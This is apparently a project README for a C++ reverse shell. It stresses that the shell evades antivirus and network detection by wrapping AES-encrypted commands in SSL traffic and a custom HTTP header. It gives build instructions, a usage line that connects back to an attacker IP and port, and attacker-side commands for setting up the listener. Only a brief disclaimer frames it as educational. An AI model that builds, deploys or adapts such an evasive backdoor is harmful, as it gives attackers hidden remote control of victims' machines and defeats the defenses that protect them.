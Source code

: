 # Encrypted SSL/TLS C++ Reverse Shell (HTTPS)
<span style="color:green">Status: Undetected (Tested on couple AV solutions including defenders)</span>

## Overview
When it comes to SSL/TLS reverse shells, the publicly available options are often limited to:
- **Using `msfvenom` to generate an HTTPS reverse shell (Signatured)**.
- **Using a PowerShell / Python payload (high level languages)**.

### Why Do We Need One?
Using a standard reverse shell often results in unencrypted traffic, which can be easily flagged by **Network Detection and Response (NDR)** systems or firewalls. These tools inspect network traffic and can identify remote code execution patterns, blocking the binary and alerting defenders.

An encrypted reverse shell helps evade such detection by:
1. Encrypting all communication, making it harder for network tools to inspect the traffic.
2. Using SSL to blend in with legitimate HTTPS traffic.

To address this gap, I created a simple **C++ SSL Reverse Shell** POC (commented and explained):
- **Undetected** by Microsoft Defender and some other AV solutions at the time of publishing.
- Enables secure communication via SSL, reducing the chance of detection.
- Using AES Encryption / Decryption and embedding the results and commands within HTTP headers to bypass deep packet inspection.

> **Note**: I tested the binary against a limited set of antivirus solutions, and results may vary across environments.

---

## Purpose of the POC

This Proof of Concept (POC) demonstrates how to build a reverse shell that utilizes **SSL/TLS encryption** and **AES encryption/decryption** to achieve secure communication between the attacker and the target. The main objectives and functionality of this POC are as follows:

- **Avoid Detection**: By using SSL/TLS (the same protocol used for legitimate HTTPS traffic), the reverse shell traffic blends in with regular encrypted web traffic, making it much harder to detect by Network Detection and Response (NDR) systems or firewalls.
- **Encrypted Communication**: The communication between the client (target) and the attacker is encrypted using **AES** (Advanced Encryption Standard). This ensures that even if the traffic is intercepted, it cannot be easily read or tampered with without the correct decryption key.
- **Command Execution in Encrypted Form**: Commands are **encrypted** on the server side and sent to the client over the SSL connection. The client decrypts these commands, executes them, and then sends back the encrypted output to the attacker.
- **Embedding Commands in HTTP Headers**: The encrypted command is embedded within a custom HTTP header (`X-Command`), allowing it to pass through web proxies, firewalls, or any other inspection system that may be scanning traffic for unusual activity. This technique makes the reverse shell more difficult to detect by conventional network traffic analysis tools.
- **Simulating Legitimate HTTPS Traffic**: By using HTTPS (SSL/TLS) and embedding encrypted payloads within HTTP headers, the reverse shell traffic appears as regular secure web traffic, which helps evade deep packet inspection (DPI) systems that are typically used to identify malicious traffic patterns.
- **Encrypted Results Sent Back**: The results of the executed commands are also encrypted using **AES** and sent back to the attacker through the SSL connection. This ensures that the response is equally protected and remains secure during transmission, preventing interception , tampering or detection by unauthorized parties.

The goal of this POC is to illustrate a method of bypassing common network security mechanisms by employing common, but underused, techniques to maintain the confidentiality and integrity of the communication channel. It is important to note that while the reverse shell is **undetected** by some AV solutions, it is **not guaranteed** to bypass all defenses.

---

## Setup Instructions
Follow these steps to set up the project:

1. **Download the Necessary Files**:
   - Clone the repository:  
     ```bash
     git clone https://github.com/V-i-x-x/SSLReverseShell.git
     ```
   - Download `OpenSSLWin64.zip` (linked in the repository).

2. **Extract OpenSSL Libraries**:
   - Unzip `OpenSSLWin64.zip` into a folder of your choice.  
     For example, in the project, I placed it in the `C:\` directory.

     ```plaintext
     C:\OpenSSLWin64
     ```

3. **Compile the Project**:
   - Ensure the project includes the OpenSSL libraries for successful compilation into a single `.exe` binary.

---

## Additional Notes
- **OpenSSLWin64**: This is the precompiled SSL library required for the project. Ensure it is correctly set up to avoid linking issues.
- **Testing**: While the binary is undetectable by some AV solutions as of now, this is not guaranteed against all antivirus software or future updates.

---

## Configuration In Visual Studio

1- Go to C/C++ → Code Generation → Runtime Library.  
Set this to Multi-threaded (/MT) to ensure that your application links statically against the runtime libraries, which helps in creating a single binary.

![Local Image](./images/MT.png "MT FLAG")

2- Configuration Properties > C/C++ > General, add the path to the OpenSSL include directory (C:\OpenSSLWin64\install\include) to Additional Include Directories.

![Local Image](./images/Include.png "Include Libraries")

3- Under Configuration Properties > Linker > General, add the path to the OpenSSL library directory (C:\OpenSSLWin64\install\lib) to Additional Library Directories

![Local Image](./images/Linker1.png "Linker.png")

4- Under Configuration Properties > Linker > Input, add the following to Additional Dependencies:  
C:\OpenSSLWin64\install\lib\libssl.lib  
C:\OpenSSLWin64\install\lib\libcrypto.lib

![Local Image](./images/Linker2.png "Linker.png")

---

## Usage

```
Usage: C:\Users\Vixx\Downloads\SSLReverseShell.exe <ATTACKER_IP> <ATTACKER_PORT>
Example: SSLReverseShell.exe 192.168.100.10 443
```

---

## Capture the reverse shell in your Kali OS

1- Generate a New RSA Private Key and Self-Signed Certificate (Containing the Public Key)
```
openssl req -newkey rsa:2048 -nodes -keyout attacker.key -x509 -days 365 -out attacker.crt
```
2- Python Script will be the server to capture the shell and send the command back to client (encrypted with aes)
- Install required library

```
pip3 install pycryptodome
```
- Start the Server
```
┌──(kali㉿kali)-[~/Desktop/pen-300/sslrevshell]
└─$ python3 sslserverv1.3.py      
[*] Listening on 0.0.0.0:443
```
---

### Disclaimer
This project is for **educational purposes only**. Unauthorized use of this tool in production or against systems without explicit permission is strictly prohibited.
